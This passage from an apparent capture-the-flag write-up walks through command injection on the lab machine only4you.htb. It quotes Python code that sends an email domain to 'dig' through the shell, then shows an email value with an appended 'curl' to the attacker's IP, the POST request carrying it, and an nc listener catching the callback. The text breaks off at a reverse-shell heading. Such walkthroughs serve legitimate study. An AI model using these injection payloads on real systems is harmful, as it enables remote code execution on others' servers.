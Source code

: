 We look for spots in the python code that we can potentially expoloit, and we see that below portion:\


```python
def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

The snippet above is where the we target remote code execution (RCE) on the machine. Whats going on is: On a `post` request, the email parameter is checked via regex to see if it matches, then it is split on the `@` symbol and the second half is checked on the command line via `dig`.\


Or that's the intent. What if we have an email address with a little something extra attached? The regex is not checking for the end of a string, just that the beginning matches an email. `toasty@test.com` is a valid email according to the regex, but so is `toasty@test.com; curl 10.10.14.231:8000` . If we pass that email in, it will be split on `@` and passed on the command line like below:\


`dig txt test.com; curl 10.10.14.231:8000`\


Now that command is just a proof for showing we can get RCE, let's go ahead and test it:

#### Testing RCE

Let's get two terminals running, one listener and one sender.

**Sender**

```sh
toasty@parrot$ curl -v -X POST http://only4you.htb/ -d "subject=mysub&message=mymess&email=toasty@test.com;curl 10.10.14.231:8000"
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.210:80...
* Connected to only4you.htb (10.10.11.210) port 80 (#0)
> POST / HTTP/1.1
...SNIP
```

**Listener**

```sh
toasty@parrot$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.210] 46246
GET / HTTP/1.1
Host: 10.10.14.231:9000
User-Agent: curl/7.68.0
Accept: */*
=
```

### Reverse Shell
